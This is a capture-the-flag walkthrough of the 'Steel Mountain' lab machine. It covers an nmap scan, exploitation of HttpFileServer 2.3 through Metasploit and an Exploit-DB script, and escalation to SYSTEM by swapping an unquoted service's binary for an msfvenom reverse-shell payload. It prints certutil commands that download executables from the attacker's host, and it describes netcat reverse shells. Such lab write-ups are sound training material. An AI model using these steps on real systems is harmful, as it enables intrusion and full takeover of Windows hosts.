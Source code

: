 # Steel Mountain
![](https://i.imgur.com/hc9C0Uq.png)

- running a scan to know what is going on on our targets network
  
## Scan results

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.70.217
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:09 EST
Nmap scan report for 10.10.70.217
Host is up (0.32s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-01-30T07:13:28+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-01-29T06:47:42
|_Not valid after:  2024-07-30T06:47:42
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-01-30T07:13:21+00:00
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4c:5d:c0:bf:49 (unknown)
| smb2-time: 
|   date: 2024-01-30T07:13:22
|_  start_date: 2024-01-30T06:47:34
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1m49s, deviation: 0s, median: 1m49s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.59 seconds
```
- From the above result i see that is is a windows OS.
- it has a web-server running on both port `80` an `8080` 

navigating to the web-server on port `80` i found a picture of the employee of the month and nothing else
![](https://i.imgur.com/Y86ZcGU.png)
But when i view the page source i see where the web-server is serving that image from there backend server and the image is saved with a human name so it has to be `employee of the month` 
![](https://i.imgur.com/UM6jW86.png)
- Nothing else to see from here so i navigate to the second web-server `8080`
  
## Initial access

![](https://i.imgur.com/N2Mqb8e.png)
- i was able to see the service version of the web-server from the bottom of the web-page
i then search for the version of the sever and i found the full name of the file server running and a possible exploit
![](https://i.imgur.com/EPS1vh2.png)
clicking on the first link i was able to understand what i can use to get access 
![](https://i.imgur.com/NAk7cQw.png)
From some of the other search results i noticed some website said there is an exploit for this vulnerability on metasploit, so i start up metasploit and search using the `CVE` 
![](https://i.imgur.com/7N9yhzI.png)
Then i set the needed options and run the module to get a Meterpreter shell
![](https://i.imgur.com/tTohvwL.png)
checking information about the target system i have :
![](https://i.imgur.com/FuenHzR.png)
![](https://i.imgur.com/QdO5XPZ.png)
```bash
C:\Users\bill\Desktop
```

## Privilege Escalation

To enumerate this machine, i will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities
- "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.
![](https://i.imgur.com/faBcq6J.png)

```
To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell
```
![](https://i.imgur.com/WB7STAx.png)

![](https://i.imgur.com/cVE0o3M.png)

>[!note] 
>The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Using  msfvenom to generate a reverse shell as an Windows executable and naming it the exact name of the `AdvancedSystemCareService9` executable file: `Advanced.exe` and using the encoder `x86/shikata_ga_nai` 
![](https://i.imgur.com/gZ2SvMq.png)
Then i uploaded the executable file into the `Iobit` Directory on `Bill's` machine
![](https://i.imgur.com/64CVha2.png)
i type `shell` in the meterpreter prompt to get a windows shell and copy the `Advanced.exe` file into the `Advanced SystemCare` directory
![](https://i.imgur.com/LrWihXA.png)
in a new terminal i started a netcat listener on the port specified in the msfvenom payload i created earlier.
![](https://i.imgur.com/bhFwzWP.png)

Then i stop and restart the `AdvancedSystemCareService9` service and i got an `NTauthority\system` reverse shell to the listener
![](https://i.imgur.com/u8RqvZl.png)

![](https://i.imgur.com/ZkAw4fW.png)

![](https://i.imgur.com/Hdqz15q.png)

# Manual Foothold and exploitation

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to.

To begin we shall be using the same CVE `the exploit code from exploitdb` [here](https://www.exploit-db.com/download/39161)

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!.

- before i begin i restart the machine so all changes will reset back to default
after downloading the exploit i used nano to change some needed settings
![](https://i.imgur.com/l2GhBOB.png)
then i change the name of the Netcat binary i downloaded from `ncat.exe` to `nc.exe` because from the exploit code i see that it is calling `nc.exe` not `ncat.exe`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ mv ncat.exe nc.exe
```
1. i started a python server in the directory i have the `nc.exe` binary and also start a listener withe the port specified in the exploit the i run the exploit
![](https://i.imgur.com/ssJddjr.png)
2. i run the exploit again and this time i get a reverse shell connection
![](https://i.imgur.com/dYuLSpq.png)

![](https://i.imgur.com/o61hQWK.png)
### Privilege Escalation
I downloaded the WinpeasX64exe file from there official [Github](https://github.com/carlospolop/PEASS-ng/releases/download/20240128-3084e4e1/winPEASx64.exe)

I started another python web server in the directory i downnloaded it too and i created a directory on the target machine then use `certutil` to transfer the winPEAS binary to the target machine
![](https://i.imgur.com/c8bWfTj.png)

```powershell
certutil -urlcache -f http://10.6.92.85:80/winPEASx64.exe winPEASx64.exe
```
then i run the the winPEAS script:
![](https://i.imgur.com/fmtyfbU.png)
scrolling through the output i see this section about the unquoted path we used earlier
![](https://i.imgur.com/tCY7Sc4.png)
running `powershell -c get-service` , i can see that the service is running `sc stop AdvancedSystemCareService9` :
![](https://i.imgur.com/JOErDYc.png)

Then i moved into the Iobit directory and use `certutil` to download the advance.exe file i created earlier with msfvenom to the target machine (my python server is still running)

```powershell
certutil -urlcache -f http://10.6.92.85:80/Advanced.exe Advanced.exe
```

i copied the advanced.exe file to the `Advanced SystemCare` directory then i stop and restart the service `sc stop AdvancedSystemCareService9`then `sc start AdvancedSystemCareService9` 

- lastly i use netcat to listen on the port that is specified in my msfvenom payload and i got a higher privilege shell
![](https://i.imgur.com/xwUYqGP.png)

## Thanks For Reading
